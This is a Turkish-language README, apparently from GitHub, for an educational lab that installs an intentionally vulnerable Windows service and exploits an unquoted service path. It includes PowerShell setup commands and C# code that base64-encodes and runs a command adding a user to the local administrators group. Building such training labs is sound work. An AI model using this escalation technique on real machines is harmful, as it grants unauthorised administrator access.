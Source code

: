 ## Giriş
Bunun sadece bir eğitim aacıyla hazırlandığını ve gerçekten uzak bir senaryo olduğunu unutmayın.

## Kurulum

Projeyi bu hali ile derlersen /bin klasörü altında sana bir exe oluşacaktır. Bu bir servis projesi ve bunu windows'a eklemen gerekecektir. Ekleme işlemini aşağıdaki kod ile terminal üzerinden yapabilirsin.
```ps1
New-Service -Name "YourServiceName" -BinaryPathName <exenin tam yolu>.exe
```
Eğer servisi silip tekrardan eklemek istersen:
```ps1
$service = Get-WmiObject -Class Win32_Service -Filter "Name='Personel Takip'"
$service.Delete()
```

Bu esnada servis aslında düzgün bir şekilde çalışmaya başlayacaktır. Bu serivisi lab ortamına hazır hale getirmek istiyorsan aşağıdaki kodu çalıştır. Bu sayede unquoted path oluşturmuş olacaksın.

```ps1
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Services\zafiyetliServis4Kuday\" -Name ImagePath -Value "C:\Users\Ogrenci\Desktop\Zafiyetli Servis\Zafiyetli Servis\bin\Release\Zafiyetli Servis.exe"

```
Yukarıdaki binary path'i değiştirmeyi unutma ve unquoted path'e uygun bir path ver.

Evet kurulum tamam!

## Hackleme
Lab ortamında unquoted path'i tespit ettikten sonra bunu exploit etmek isteyebilirsin. Bu işlemi manuel bir şekilde nasıl yaptığımızı sana göstereyim.
```c#
 protected override void OnStart(string[] args)
        {
            using (System.IO.StreamWriter file =
            new System.IO.StreamWriter(@"C:\PersonelTakip.txt", true))
            {

                file.WriteLine(DateTime.Now.ToString() + ": Servis Başladı!");
            }
            //Base64EncodedCommand();
        }

```

Servis başladığında yukarıda görmüş olduğun gibi C:\PersonelTakip.txt isimli dosyaya yazı yazmakta. Bunun haricinde yorum satırına alınmış bir kod var.`Base64EncodedCommand()` metodunun içine bir gidelim.
```c#
void Base64EncodedCommand()
        {
            var psCommmand = @"net localgroup administrators bkg\yetkisizuser /add";
            var psCommandBytes = System.Text.Encoding.Unicode.GetBytes(psCommmand);
            var psCommandBase64 = Convert.ToBase64String(psCommandBytes);

            var startInfo = new ProcessStartInfo()
            {
                FileName = "powershell.exe",
                Arguments = $"-NoProfile -ExecutionPolicy unrestricted -EncodedCommand {psCommandBase64}",
                UseShellExecute = false
            };
            Process.Start(startInfo);

            using (System.IO.StreamWriter file =
          new System.IO.StreamWriter(@"C:\PersonelTakip.txt", true))
            {

                file.WriteLine(DateTime.Now.ToString() + ": Servis Başladı (Hack)!");
            }

        }
```

Evet burda bir batch kodu çalıştırıldığını görüyoruz. `net localgroup administrators bkg\yetkisizuser /add`. Unquoted service path sistemde tespit edildikten sonra `OnStart` metodunu aşağıdaki gibi güncellemek isteyebilirsiniz.
```c#
        protected override void OnStart(string[] args)
        {
            //using (System.IO.StreamWriter file =
            //new System.IO.StreamWriter(@"C:\PersonelTakip.txt", true))
            //{

            //    file.WriteLine(DateTime.Now.ToString() + ": Servis Başladı!");
            //}
            Base64EncodedCommand();
        }
```

Artık servis başladığında batch kodumuz çalışacak. Bu projeyi derleyip exe'yi binary path içerisinde unquoted service path'e uygun bir isimle eklerseniz. Servis yeniden başladığında local adminsiniz!
